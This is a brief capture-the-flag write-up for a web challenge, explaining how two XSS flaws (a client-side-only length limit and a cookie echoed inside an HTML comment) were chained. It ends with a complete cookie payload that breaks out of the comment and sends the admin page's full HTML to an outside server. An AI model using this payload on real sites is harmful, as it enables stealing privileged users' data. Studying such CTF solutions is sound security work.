 # Artisinal Shoutboxes (cloud, 200pts)

 * We could upload message with an author to a subdomain.
 * Admin viewed each sent message
 * There were 2 xss
 * One was in the author field, it was limited to 10 chars but that was only enforced on user site
 * Second was on `admin.combined.space`, cookie was being printed in a comment
 * Use first xss to setup second xss(using a cookie) and redirect the admin to `admin.combined.space`
 * Set the cookie prefix to `-->` to bypass the comment and then send the whole document to yourself on a different server.
 * Final cookie: `trolled=--><script>window.location='http://nazywam.host/'+document.documentElement.innerHTML</script><!--;domain=.combined.space;path=/` 

